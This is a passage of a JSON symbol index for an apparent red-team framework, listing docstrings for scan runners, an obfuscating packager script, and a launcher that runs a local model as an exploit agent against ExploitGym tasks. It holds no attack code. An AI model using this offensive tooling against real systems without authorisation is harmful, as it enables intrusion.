test_layout_all_panels_render_in_screenshot(self)"}, {"doc": "Run a real command and verify its output text is VISIBLE on screen.", "kind": "method", "line": 411, "name": "test_command_output_visible_in_screenshot", "signature": "def test_command_output_visible_in_screenshot(self)"}, {"kind": "function", "line": 106, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 115, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 126, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 136, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 152, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 165, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 182, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 198, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 210, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 225, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 235, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 248, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 270, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 291, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 307, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 321, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 342, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 361, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 374, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 399, "name": "_t", "signature": "def _t()"}, {"kind": "function", "line": 414, "name": "_t", "signature": "def _t()"}]}, {"doc": "This software must not be used by military or secret service organisations. License: GPL-3.0-only", "id": "pwntomate.py", "kind": "module", "label": "pwntomate.py", "language": "py", "sha256": "2026d94b25698e33", "symbol_count": 3, "symbols": [{"doc": "Return the non-credential substitution map for a tool template.\n\nCredentials are deliberately excluded so they only enter the\ncommand string through :class:`CommandRedactor.render`, which\nguarantees the display copy never contains a real credential\nbyte-for-byte.", "kind": "function", "line": 113, "name": "_build_substitutions", "signature": "def _build_substitutions(host_addr, port, toolname_value, basedir_value, tunnel)"}, {"doc": "Best-effort ownership fixup, silent when not permitted.\n\nScans run under sudo leave root-owned files behind. Fixed argv only\n(no shell, no user input); ``sudo -n`` never prompts, plain call\ncovers operator-owned trees, failure is non-fatal either way.", "kind": "function", "line": 143, "name": "_fix_sessions_owner", "signature": "def _fix_sessions_owner()"}, {"doc": "Run one auto-job command without shell interpretation.\n\nSplits the generated ``mkdir -p ... && <tool>`` chain into a\ndirectory-creation step plus a tool step. The tool step uses\nshlex.split with shell False so scan-derived host data cannot\ninject shell operators. Falls back to shell only for templates\nthat contain additional chaining beyond the single mkdir prefix.", "kind": "function", "line": 203, "name": "_run_tool", "signature": "def _run_tool(cmd)"}]}, {"doc": "Nombre del script: py2elf.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. py2elf para ofuscar y paquetizar el Framework mediante pyinstaller Licencia: GPL v3", "id": "py2elf.sh", "kind": "module", "label": "py2elf.sh", "language": "sh", "sha256": "fefc51c88cbcddd3", "symbol_count": 0, "symbols": []}, {"doc": "readmeneitor.py — Automated documentation generator for LazyOwn RedTeam Framework.  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Creation date: 09/06/2024 License: GPL v3  Description: Scans all do_* methods across cli/commands/ and lazyown.py via AST, augments metadata from cli/command_index.json, and generates a categorized COMMANDS.md reference organized by kill-chain phase.  █████╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██╔══██╗   ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ███████║   ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██╔══██║   ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ██║  ██║   ██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚═╝  ╚═╝   ╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "readmeneitor.py", "kind": "module", "label": "readmeneitor.py", "language": "py", "sha256": "0cc1397529231c29", "symbol_count": 11, "symbols": [{"doc": "Collapse a generated file tail to exactly one newline.\n\nKeeps ``end-of-file-fixer`` green on every regeneration.", "kind": "function", "line": 74, "name": "normalize_trailing_newline", "signature": "def normalize_trailing_newline(output_path)"}, {"doc": "Load and parse the command index JSON file.\n\nArgs:\n    index_path: Path to cli/command_index.json.\n\nReturns:\n    Parsed JSON dictionary. Returns an empty dict if the file is missing\n    or contains invalid JSON.", "kind": "function", "line": 83, "name": "load_command_index", "signature": "def load_command_index(index_path)"}, {"doc": "Build a lookup dict from command name to its metadata.\n\nCombines the ``commands`` list with ``phase_to_commands`` to assign\nevery command a phase, category, and summary.\n\nArgs:\n    index_data: The parsed command_index.json content.\n\nReturns:\n    Dict mapping ``do_<name>`` to a metadata dict with keys:\n    ``phase``, ``summary``, ``source_file``.", "kind": "function", "line": 104, "name": "build_command_map", "signature": "def build_command_map(index_data)"}, {"doc": "Parse a single Python file with AST and extract docstrings of ``do_*`` methods.\n\nArgs:\n    filepath: Path to a ``.py`` source file.\n\nReturns:\n    Dict mapping function name (e.g. ``do_ask``) to its docstring.\n    Returns an empty dict if the file cannot be parsed.", "kind": "function", "line": 132, "name": "extract_docstrings_from_file", "signature": "def extract_docstrings_from_file(filepath)"}, {"doc": "Recursively scan a directory for Python files and extract all ``do_*`` docstrings.\n\nSkips files whose name begins with an underscore and\n``__pycache__`` directories.\n\nArgs:\n    dirpath: Root directory to scan.\n\nReturns:\n    Dict mapping function name to its full docstring.", "kind": "function", "line": 161, "name": "extract_docstrings_from_dir", "signature": "def extract_docstrings_from_dir(dirpath)"}, {"doc": "Group command names by their kill-chain phase.\n\nArgs:\n    cmd_map: Command metadata dict from :func:`build_command_map`.\n\nReturns:\n    Dict mapping phase key to a sorted list of command names (``do_*``).", "kind": "function", "line": 187, "name": "group_commands_by_phase", "signature": "def group_commands_by_phase(cmd_map)"}, {"doc": "Parse a Python file with AST and extract docstrings of public functions.\n\nArgs:\n    filepath: Path to a ``.py`` source file.\n\nReturns:\n    Dict mapping function name to its docstring. Private names\n    (leading underscore) are skipped. Returns an empty dict if the\n    file cannot be parsed.", "kind": "function", "line": 209, "name": "extract_functions_from_file", "signature": "def extract_functions_from_file(filepath)"}, {"doc": "Generate UTILS.md with a helper-function reference for ``utils.py``.\n\nArgs:\n    functions: Mapping of function name to its full docstring.\n    output_path: Destination file path for UTILS.md.\n\nReturns:\n    Total number of functions written to the file.", "kind": "function", "line": 241, "name": "write_utils_md", "signature": "def write_utils_md(functions, output_path)"}, {"doc": "Generate COMMANDS.md with a table of contents and per-phase command reference.\n\nArgs:\n    cmd_map: Command metadata from command_index.json.\n    docstrings: Full docstrings extracted via AST.\n    groups: Commands grouped by phase key.\n    output_path: Destination file path for COMMANDS.md.\n\nReturns:\n    Total number of unique commands written to the file.", "kind": "function", "line": 276, "name": "write_commands_md", "signature": "def write_commands_md(cmd_map, docstrings, groups, output_path)"}, {"doc": "Convert the generated Markdown file to HTML using pandoc.\n\nArgs:\n    md_path: Path to the source Markdown file.\n    html_path: Destination path for the HTML output.", "kind": "function", "line": 343, "name": "convert_to_html", "signature": "def convert_to_html(md_path, html_path)"}, {"doc": "Entry point: scan sources, load metadata, and generate reference docs.", "kind": "function", "line": 379, "name": "main", "signature": "def main()"}]}, {"doc": "Launcher for telegram_hermes.py Uses the dedicated venv with python-telegram-bot dependencies", "id": "run_telegram_hermes.sh", "kind": "module", "label": "run_telegram_hermes.sh", "language": "sh", "sha256": "ef318cfb30432b3e", "symbol_count": 0, "symbols": []}, {"doc": "Run TopoExploit against an ExploitGym task using the local model.  Flow: 1. Start the TopoExploit OpenAI-compatible API server (host, GPU) if not up. 2. Invoke the ExploitGym harness with --agent topoexploit pointing at it.  Usage: ./run_topoexploit_agent.sh <task_id> [--no-mitigations]  Env: TOPOEXPLOIT_DIR    TopoExploit repo (default: <repo>/external/.exploit/TopoExploit) TOPOEXPLOIT_CKPT   checkpoint dir (default: checkpoints_topoexploit/last, relative to repo) TOPOEXPLOIT_PORT   API port (default: 8800) EXPLOITGYM_DIR     ExploitGym repo (default: <repo>/external/.exploit/exploitgym)", "id": "run_topoexploit_agent.sh", "kind": "module", "label": "run_topoexploit_agent.sh", "language": "sh", "sha256": "b834fda8c724b86e", "symbol_count": 2, "symbols": [{"kind": "function", "line": 29, "name": "banner"}, {"kind": "function", "line": 38, "name": "start_api"}]}, {"doc": "Repository-side maintenance scripts.  Modules in this package are entry points for the developer workflow (index generation, lint helpers, release prep). They are not imported by the runtime: ``lazyown.py`` and ``lazyc2.py`` never depend on anything here.", "id": "scripts/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "58784545c388d5e9", "symbol_count": 0, "symbols": []}, {"doc": "Activate dormant CommandSet migrations.  Usage: python3 scripts/activate_migrations.py [--dry-run] [--phase <name>]  Scans cli/commands/*_migrated.py files that use PendingCommandSet, finds the corresponding do_* methods in lazyown.py, removes them, and changes the base class to LazyOwnCommandSet.  When the originals are deleted from lazyown.py, the migrated CommandSets activate automatically on next shell start via cli.registry.", "id": "scripts/activate_migrations.py", "kind": "module", "label": "activate_migrations.py", "language": "py", "sha256": "85f3271701df5db2", "symbol_count": 7, "symbols": [{"kind": "class", "line": 28, "name": "MigrationError", "signature": "class MigrationError(Exception)"}, {"doc": "Return paths to all *_migrated.py files using PendingCommandSet.", "kind": "function", "line": 32, "name": "find_migrated_sets", "signature": "def find_migrated_sets()"}, {"doc": "Extract do_* method names from a migrated CommandSet file.", "kind": "function", "line": 42, "name": "extract_command_names", "signature": "def extract_command_names(migrated_path)"}, {"doc": "Return {name: (start_line, end_line)} for commands in lazyown.py.", "kind": "function", "line": 52, "name": "find_in_lazyown", "signature": "def find_in_lazyown(command_names)"}, {"doc": "Remove the specified do_* methods from lazyown.py. Returns count removed.", "kind": "function", "line": 62, "name": "remove_from_lazyown", "signature": "def remove_from_lazyown(locations, dry_run)"}, {"doc": "Change PendingCommandSet to LazyOwnCommandSet in the migrated file.", "kind": "function", "line": 75, "name": "activate_migrated_file", "signature": "def activate_migrated_file(migrated_path, dry_run)"}, {"kind": "function", "line": 88, "name": "main", "signature": "def main()"}]}, {"doc": "One-shot backfill: add ``os`` and ``trigger`` keys to every lazyaddon.  This script is idempotent. It scans ``lazyaddons/*.yaml``, classifies each file via a small heuristic table (filename + repo URL + category), then inserts ``os`` and ``trigger`` immediately before the ``tool:`` block, preserving the rest of the YAML formatting verbatim. Files that already declare both keys are skipped.  Run via ``python3 scripts/backfill_addon_os_trigger.py``. The classifier errs on the conservative side: when uncertain the file is left with the safe defaults ``os: any`` and ``trigger: []`` so the addon keeps loading.", "id": "scripts/backfill_addon_os_trigger.py", "kind": "module", "label": "backfill_addon_os_trigger.py", "language": "py", "sha256": "b13ae1f3ce726061", "symbol_count": 5, "symbols": [{"doc": "Return a MITRE-platform string for the addon based on filename.", "kind": "function", "line": 104, "name": "classify_os", "signature": "def classify_os(filename)"}, {"doc": "Return the curated trigger tuple for an addon, or ``()``.", "kind": "function", "line": 121, "name": "known_trigger", "signature": "def known_trigger(name)"}, {"doc": "Render the trigger field as inline YAML matching the project style.", "kind": "function", "line": 127, "name": "render_trigger", "signature": "def render_trigger(trigger)"}, {"doc": "Return the new file content with ``os`` and ``trigger`` inserted.\n\nIdempotent: when both keys already exist the original text is\nreturned unchanged.", "kind": "function", "line": 141, "name": "patch", "signature": "def patch(path)"}, {"doc": "Walk every addon and rewrite files that need backfilling.", "kind": "function", "line": 175, "name": "main", "signature": "def main()"}]}, {"doc": "Verify that documented contracts still exist on disk.  The repository publishes contract tables and public import examples in its markdown. Markdown drifts silently when a module is renamed or a test file is deleted. This script reads the contract tables and the public import examples and fails when a documented module, test, or public symbol is missing.  The check is intentionally conservative. It ignores globs, brace expansions, placeholders, URLs, and session artefacts, because those are patterns rather than concrete paths.  Usage: python3 scripts/check_contract_manifest.py python3 scripts/check_contract_manifest.py --verbose", "id": "scripts/check_contract_manifest.py", "kind": "module", "label": "check_contract_manifest.py", "language": "py", "sha256": "3dc95d41809e5155", "symbol_count": 13, "symbols": [{"doc": "Configuration for the contract manifest check.\n\nAttributes:\n    repo_root: Root of the checkout.\n    docs_with_tables: Markdown files whose tables cite modules and tests.\n    core_md: Consumer document whose import examples are the public API.\n    path_extensions: File suffixes treated as concrete path references.\n    skip_substrings: Fragments that mark a token as a pattern, not a path.\n    skip_prefixes: Repo-relative prefixes that are runtime state.", "kind": "class", "line": 34, "name": "ManifestConfig", "signature": "class ManifestConfig"}, {"doc": "Return the top-level names defined or imported by a Python file.\n\nArgs:\n    path: Path of the Python file to parse.\nReturns:\n    The set of class, function, assignment, and import names declared at\n    module level. An unparseable file yields an empty set.", "kind": "function", "line": 72, "name": "_top_level_names", "signature": "def _top_level_names(path)"}, {"doc": "Map a dotted module name to an existing file, if one exists.", "kind": "function", "line": 100, "name": "_module_path", "signature": "def _module_path(module, config)"}, {"doc": "Return True when the dotted token resolves to a module or member.", "kind": "function", "line": 112, "name": "_dotted_symbol_exists", "signature": "def _dotted_symbol_exists(token, config)"}, {"doc": "Return every cell of every markdown table row in ``text``.", "kind": "function", "line": 127, "name": "_iter_table_cells", "signature": "def _iter_table_cells(text)"}, {"doc": "Return concrete repo-relative path tokens cited by markdown tables.", "kind": "function", "line": 138, "name": "_extract_path_tokens", "signature": "def _extract_path_tokens(text, config)"}, {"doc": "Resolve a cited path or test name to a file, if it exists.", "kind": "function", "line": 154, "name": "_resolve_reference", "signature": "def _resolve_reference(token, config)"}, {"doc": "Return ``(module, name)`` pairs from every import example in a doc.", "kind": "function", "line": 163, "name": "_collect_doc_imports", "signature": "def _collect_doc_imports(text)"}, {"doc": "Return the list of documented contracts that are missing on disk.\n\nArgs:\n    config: Active check configuration.\nReturns:\n    Human readable drift messages. An empty list means the manifest is\n    consistent with the source.", "kind": "function", "line": 176, "name": "check_manifest", "signature": "def check_manifest(config)"}, {"doc": "Return dotted identifier tokens from the public surface table.\n\nFile-like tokens such as ``payload.json`` are skipped because they cite\nan artefact, not an importable module.", "kind": "function", "line": 209, "name": "_extract_dotted_tokens", "signature": "def _extract_dotted_tokens(text, config)"}, {"doc": "Run the manifest check and return the process exit code.\n\nArgs:\n    argv: Optional argument vector. Defaults to ``sys.argv``.\nReturns:\n    0 when the manifest is consistent, 1 when drift is detected.", "kind": "function", "line": 229, "name": "main", "signature": "def main(argv)"}, {"doc": "Resolve relative paths against the repository root.", "kind": "method", "line": 53, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"doc": "Return ``path`` anchored at the repository root when relative.", "kind": "method", "line": 58, "name": "_resolve", "signature": "def _resolve(self, path)"}]}, {"doc": "Audit every registered shell command for dispatch and parser errors.  The audit boots the cmd2 shell once, runs ``help`` for every registered command, and probes every ``@with_argparser`` command with an invalid flag so cmd2 exercises the parser without running the command body. It reports any command whose parser or dispatch raises. It is read-only: the probe flag is rejected before the command body executes.", "id": "scripts/devtools/command_audit.py", "kind": "module", "label": "command_audit.py", "language": "py", "sha256": "66639cce372ff3af", "symbol_count": 4, "symbols": [{"doc": "Configuration for the command audit.\n\nAttributes:\n    commands_dir: Directory that holds the cmd2 CommandSet modules.\n    probe_flag: Invalid flag the parser must reject without running the body.\n    safe_argv: Argument vector installed before importing the shell so the\n        framework does not parse the audit's own arguments.", "kind": "class", "line": 25, "name": "AuditConfig", "signature": "class AuditConfig"}, {"doc": "Return the command names decorated with ``@with_argparser``.\n\nArgs:\n    config: Active audit configuration.\nReturns:\n    Sorted command names without the ``do_`` prefix.", "kind": "function", "line": 40, "name": "argparser_commands", "signature": "def argparser_commands(config)"}, {"doc": "Run the dispatch and parser audit.\n\nArgs:\n    config: Optional audit configuration.\nReturns:\n    A list of ``command: error`` strings. Empty means every command passed.", "kind": "function", "line": 65, "name": "audit", "signature": "def audit(config)"}, {"doc": "Run the audit and return the process exit code.", "kind": "function", "line": 105, "name": "main", "signature": "def main(argv)"}]}, {"doc": "Smoke check for the public surfaces documented in CORE.md.  I run this before a release and after a refactor that touches the consumer API. It imports every public name, calls a small safe subset, and exits non-zero on the first missing name. It never mutates the campaign state: the database runs in a temporary directory and the kill-chain read is read-only.", "id": "scripts/devtools/core_smoke.py", "kind": "module", "label": "core_smoke.py", "language": "py", "sha256": "da221f7a95195779", "symbol_count": 4, "symbols": [{"doc": "Configuration for the smoke check.\n\nAttributes:\n    surfaces: Mapping of module name to the public attributes it must\n        expose.", "kind": "class", "line": 20, "name": "SmokeConfig", "signature": "class SmokeConfig"}, {"doc": "Return the dotted names that are missing from the imported modules.\n\nArgs:\n    config: Active smoke configuration.\nReturns:\n    A list of missing ``module.attribute`` names. Empty means all present.", "kind": "function", "line": 64, "name": "check_surfaces", "signature": "def check_surfaces(config)"}, {"doc": "Exercise a small safe subset of the public API.\n\nReturns:\n    A list of failures. Empty means every call succeeded.", "kind": "function", "line": 81, "name": "check_calls", "signature": "def check_calls()"}, {"doc": "Run the smoke check and return the process exit code.", "kind": "function", "line": 118, "name": "main", "signature": "def main()"}]}, {"id": "scripts/fix_migrated_classes.py", "kind": "module", "label": "fix_migrated_classes.py", "language": "py", "sha256": "517d4d5eed14a725", "symbol_count": 0, "symbols": []}, {"doc": "Generate a minimal CycloneDX SBOM from the pinned requirements files.  Stdlib only, no network: parses ``requirements.txt`` (plus ``requirements-ml.txt`` with ``--with-ml``) and the project version from ``pyproject.toml``, and writes a CycloneDX 1.5 document.  Usage: python3 scripts/generate_sbom.py --out sbom.json python3 scripts/generate_sbom.py --with-ml --out sbom.json", "id": "scripts/generate_sbom.py", "kind": "module", "label": "generate_sbom.py", "language": "py", "sha256": "fdcdb69dc62820e7", "symbol_count": 5, "symbols": [{"doc": "Split one requirements line into (name, pinned_version|None).", "kind": "function", "line": 25, "name": "parse_requirement", "signature": "def parse_requirement(line)"}, {"doc": "Parse requirements files into CycloneDX components, deduplicated.", "kind": "function", "line": 37, "name": "collect_components", "signature": "def collect_components(with_ml)"}, {"doc": "Read the package version from pyproject.toml.", "kind": "function", "line": 68, "name": "project_version", "signature": "def project_version()"}, {"doc": "Assemble the CycloneDX document.", "kind": "function", "line": 74, "name": "build_sbom", "signature": "def build_sbom(with_ml)"}, {"doc": "CLI entry point.", "kind": "function", "line": 92, "name": "main", "signature": "def main()"}]}, {"doc": "Read-before-you-write journal over GitHub Discussions.  I keep a durable engineering journal in a GitHub Discussion category. Every unit of work appends one entry with the reasoning that a stateless agent cannot recover from the code alone. ``read_journal`` prints the recent entries, and the ``read-before-write`` workflow forces the next change to cite the journal before it lands.  The module never opens a shell. It drives ``gh api graphql`` with an argument list, and the runner is injectable so the tests never touch the network.", "id": "scripts/journal.py", "kind": "module", "label": "journal.py", "language": "py", "sha256": "0e5b10aff0ae0b0e", "symbol_count": 14, "symbols": [{"doc": "Raised when the GitHub API call fails or the category is missing.", "kind": "class", "line": 48, "name": "JournalError", "signature": "class JournalError(RuntimeError)"}, {"doc": "Configuration for the engineering journal.\n\nAttributes:\n    owner: GitHub account or organization that owns the repository.\n    name: Repository name.\n    category: Discussion category that holds the journal entries.\n    limit: Default number of entries ``read`` returns.\n    marker: Token the read-before-write workflow looks for in a PR body.", "kind": "class", "line": 53, "name": "JournalConfig", "signature": "class JournalConfig"}, {"doc": "Run a git command and return its standard output.\n\nArgs:\n    args: Arguments passed to git, without the leading ``git``.\nReturns:\n    The stripped standard output.\nRaises:\n    JournalError: When git exits non-zero or is unavailable.", "kind": "function", "line": 90, "name": "_run_git", "signature": "def _run_git(args)"}, {"doc": "Return the ``owner/name`` slug of the ``origin`` remote.", "kind": "function", "line": 114, "name": "_git_remote_slug", "signature": "def _git_remote_slug()"}, {"doc": "Run ``gh`` with an argument list and return its standard output.\n\nArgs:\n    args: Arguments passed to ``gh``.\nReturns:\n    The standard output of the command.\nRaises:\n    JournalError: When ``gh`` is missing or exits non-zero.", "kind": "function", "line": 124, "name": "_default_runner", "signature": "def _default_runner(args)"}, {"doc": "GitHub Discussions backed journal.\n\nAttributes:\n    config: Active journal configuration.\n    runner: Callable that executes ``gh`` and returns its output. The\n        default shells out through an argument list; tests inject a stub.", "kind": "class", "line": 149, "name": "Journal", "signature": "class Journal"}, {"doc": "Build the command line parser.", "kind": "function", "line": 245, "name": "_build_parser", "signature": "def _build_parser()"}, {"doc": "Run the journal CLI and return the process exit code.\n\nArgs:\n    argv: Optional argument vector. Defaults to ``sys.argv``.\nReturns:\n    0 on success, 1 on a journal error.", "kind": "function", "line": 264, "name": "main", "signature": "def main(argv)"}, {"doc": "Build a config from the ``origin`` remote of the current checkout.\n\nArgs:\n    remote: Optional repository slug ``owner/name``. When omitted, the\n        slug is read from ``git config --get remote.origin.url``.\n    category: Discussion category that holds the journal entries.\nReturns:\n    The resolved configuration.\nRaises:\n    JournalError: When the remote cannot be resolved to a slug.", "kind": "method", "line": 71, "name": "from_git_remote", "signature": "def from_git_remote(cls, remote, category)"}, {"doc": "Run a GraphQL query through ``gh`` and return the ``data`` payload.\n\nArgs:\n    query: GraphQL document.\n    variables: Variables passed to ``gh`` with ``-f``.\nReturns:\n    The ``data`` object of the response.\nRaises:\n    JournalError: When the response contains GraphQL errors.", "kind": "method", "line": 163, "name": "_graphql", "signature": "def _graphql(self, query, variables)"}, {"doc": "The GraphQL node id of the repository.", "kind": "method", "line": 184, "name": "repo_id", "signature": "def repo_id(self)"}, {"doc": "The GraphQL node id of the journal category.", "kind": "method", "line": 192, "name": "category_id", "signature": "def category_id(self)"}, {"doc": "Create a journal entry and return its number, url, and title.\n\nArgs:\n    title: Entry title.\n    body: Entry body in markdown.\nReturns:\n    A dict with ``number``, ``url`` and ``title``.\nRaises:\n    JournalError: When the mutation fails.", "kind": "method", "line": 206, "name": "post", "signature": "def post(self, title, body)"}, {"doc": "Return the most recently updated journal entries.\n\nArgs:\n    limit: Maximum number of entries. Defaults to the config limit.\nReturns:\n    A list of dicts with ``number``, ``title``, ``body``, ``url`` and\n    ``updatedAt``.\nRaises:\n    JournalError: When the query fails.", "kind": "method", "line": 223, "name": "entries", "signature": "def entries(self, limit)"}]}, {"doc": "lazy_hermes_ask.sh — detached Hermes task runner for LazyOwn. Usage: lazy_hermes_ask.sh [--in DIR] [--resume SESSION] <task words...> Joins all args as one query and runs: hermes chat --oneshot -Q -q <query> against the local Qwen server (provider/flags match lazy_llamacpp).", "id": "scripts/lazy_hermes_ask.sh", "kind": "module", "label": "lazy_hermes_ask.sh", "language": "sh", "sha256": "5fdeb3e86e8721f9", "symbol_count": 0, "symbols": []}, {"doc": "lazy_llamacpp_serve.sh — idempotent llama.cpp server manager for LazyOwn.  Usage: lazy_llamacpp_serve.sh           # ensure server up, print endpoint + status lazy_llamacpp_serve.sh status    # health check only (exit 0/1) lazy_llamacpp_serve.sh stop      # stop the server started from this repo  Env overrides: LLAMACPP_HOST (default 127.0.0.1), LLAMACPP_PORT (8080), LLAMACPP_MODEL (gguf path), LLAMACPP_NGL (auto: 26 with NVIDIA GPU else 0), LLAMACPP_THREADS (default 8), LLAMACPP_CTX (default 65536).  Non-interactive: safe for addon execute_command and fast_run panes.", "id": "scripts/lazy_llamacpp_serve.sh", "kind": "module", "label": "lazy_llamacpp_serve.sh", "language": "sh", "sha256": "9c02d10c29677a8a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 33, "name": "healthy"}]}, {"doc": "lazy_llamacpp_setup.sh — one-time local LLM setup for LazyOwn users.  Interactively (or via flags) it: 1. builds llama.cpp from the lazy_llamacpp addon clone (CUDA when present), 2. downloads the Qwen 27B GGUF model (~8GB, asks first), 3. starts the server through lazy_llamacpp_serve.sh, 4. optionally patches opencode (~/.config/opencode/opencode.json), 5. optionally patches hermes (~/.hermes/config.yaml), 6. optionally sets payload.json local_llm so fast_run uses it.  Flags (all default to asking): --yes            accept every default without prompting --no-download    skip the model download (reuse existing models/*.gguf) --no-opencode    skip opencode config patch --no-hermes      skip hermes config patch --no-payload     skip payload.json local_llm change  The operator's existing setup is never touched without an explicit yes.", "id": "scripts/lazy_llamacpp_setup.sh", "kind": "module", "label": "lazy_llamacpp_setup.sh", "language": "sh", "sha256": "f22b035325e5a877", "symbol_count": 1, "symbols": [{"kind": "function", "line": 40, "name": "ask"}]}, {"doc": "lazy_msf_lab.sh — Metasploitable2 smoke lab manager for LazyOwn.  The lab image is operator-provided (Rapid7 license): place metasploitable-linux-2.0.0.zip next to this script's install dir or pass its path via MSF_LAB_ZIP. The script never downloads the image itself.  Usage: lazy_msf_lab.sh setup [zip-path]  # unzip + import guidance lazy_msf_lab.sh up                # start VM headless lazy_msf_lab.sh status            # VM state + guest IP lazy_msf_lab.sh down              # stop VM lazy_msf_lab.sh smoke [target]    # loop smoke run, prints verdict  Non-interactive except setup's import guidance (operator imports once in VirtualBox; thereafter everything is CLI-driven).", "id": "scripts/lazy_msf_lab.sh", "kind": "module", "label": "lazy_msf_lab.sh", "language": "sh", "sha256": "e54b60d1e6b4217e", "symbol_count": 0, "symbols": []}, {"doc": "Patch operator agent configs to use the Lazy llama.cpp server.  Shared by ``scripts/lazy_llamacpp_setup.sh`` and the ``lazyown_opencode_config`` MCP tool so interactive and agentic flows apply byte-identical merges. Every write backs the file up first and never touches an existing setup without an explicit call.  Targets: - ``opencode``: ``~/.config/opencode/opencode.json`` gains the ``llamacpp`` provider plus the ``local-model`` entry. - ``hermes``: ``~/.hermes/config.yaml`` gains the ``llamacpp`` provider entry and points the default model at it.", "id": "scripts/lazy_opencode_config.py", "kind": "module", "label": "lazy_opencode_config.py", "language": "py", "sha256": "63ce1bd57bedf776", "symbol_count": 6, "symbols": [{"doc": "Copy path to a timestamped backup; return the backup path.", "kind": "function", "line": 29, "name": "_backup", "signature": "def _backup(path)"}, {"doc": "Return the opencode config path.", "kind": "function", "line": 36, "name": "_opencode_path", "signature": "def _opencode_path()"}, {"doc": "Return the hermes config path.", "kind": "function", "line": 41, "name": "_hermes_path", "signature": "def _hermes_path()"}, {"doc": "Merge the llamacpp provider into the opencode config.\n\nArgs:\n    set_default: Also set the top-level model to llamacpp/local-model.\n    host: Server base URL (``.../v1``).\n\nReturns:\n    Summary with changed flag, backup path and path. Never raises.", "kind": "function", "line": 46, "name": "patch_opencode", "signature": "def patch_opencode(set_default, host)"}, {"doc": "Point the hermes config at the local llama.cpp server.\n\nSurgical merge: only the llamacpp provider entry and the default\nmodel pointer are ensured; every other key (and the operator's own\nprovider fields like ``name``/``transport``) is preserved. The file\nis rewritten only when a required value actually differs.\n\nArgs:\n    host: Server base URL (``.../v1``).\n\nReturns:\n    Summary with changed flag, backup path and path. Never raises.", "kind": "function", "line": 93, "name": "patch_hermes", "signature": "def patch_hermes(host)"}, {"doc": "CLI entry: ``--target opencode|hermes|both [--set-default]``.", "kind": "function", "line": 150, "name": "main", "signature": "def main(argv)"}]}, {"doc": "Merge _migrated.py CommandSet methods into clean phase modules.  Reads each ``*_migrated.py`` file under ``cli/commands/``, identifies ``do_*`` methods not yet present in the corresponding clean ``.py`` file, and appends them. The clean file keeps its existing base class (LazyOwnCommandSet or PendingCommandSet) unchanged; only new methods are added.  Usage: python3 scripts/migrate_commandsets.py [--dry-run] [--phase scan]  Without ``--phase``, processes every pending phase.", "id": "scripts/migrate_commandsets.py", "kind": "module", "label": "migrate_commandsets.py", "language": "py", "sha256": "82b2833cbe829f86", "symbol_count": 6, "symbols": [{"doc": "Extract the source block for *method_name* from Python source string.", "kind": "function", "line": 38, "name": "_extract_method_source", "signature": "def _extract_method_source(source, method_name)"}, {"doc": "Return the set of ``do_*`` method names defined in *filepath*.", "kind": "function", "line": 52, "name": "_method_names_from_file", "signature": "def _method_names_from_file(filepath)"}, {"doc": "Return the zero-based line index of the last line inside the module-level class.", "kind": "function", "line": 69, "name": "_find_class_end", "signature": "def _find_class_end(source_lines)"}, {"doc": "Append *methods* to the clean file. Returns (changed, count_added).", "kind": "function", "line": 83, "name": "_append_methods", "signature": "def _append_methods(clean_path, methods)"}, {"doc": "Merge one phase's migrated methods into its clean file. Returns True if changed.", "kind": "function", "line": 117, "name": "merge_phase", "signature": "def merge_phase(phase, dry_run)"}, {"kind": "function", "line": 158, "name": "main", "signature": "def main()"}]}, {"doc": "Staged migration script: extract do_* methods from lazyown.py into cli/commands/.  Usage: python3 scripts/migrate_lazyown.py  What it does: 1. Parses lazyown.py with the ast module. 2. Groups every ``do_*`` method by its ``@cmd2.with_category(...)`` decorator. 3. For methods that reference module-level globals (api_key, rhost, …) it rewrites those references to ``self.params[...]``. 4. Writes a ``cli/commands/<phase>.py`` file per category that does NOT already exist. 5. Prints a diff-ready report so the operator can review before deleting the originals from ``lazyown.py``.  This script is **read-only** — it never edits ``lazyown.py``.", "id": "scripts/migrate_lazyown.py", "kind": "module", "label": "migrate_lazyown.py", "language": "py", "sha256": "539835b900b3d56f", "symbol_count": 6, "symbols": [{"doc": "Return the category name from a ``with_category(...)`` decorator.", "kind": "function", "line": 70, "name": "_category_from_decorator", "signature": "def _category_from_decorator(decorator)"}, {"kind": "function", "line": 84, "name": "_indent_level", "signature": "def _indent_level(line)"}, {"doc": "Return the raw source text of a function definition.", "kind": "function", "line": 88, "name": "extract_method", "signature": "def extract_method(source, node)"}, {"doc": "Replace bare module-global names with ``self.params[...]``.\n\nUses a two-pass approach: first mask existing ``self.params[\"X\"]``\ncalls with placeholders so the bare-variable regex does not double-\nwrap string values, 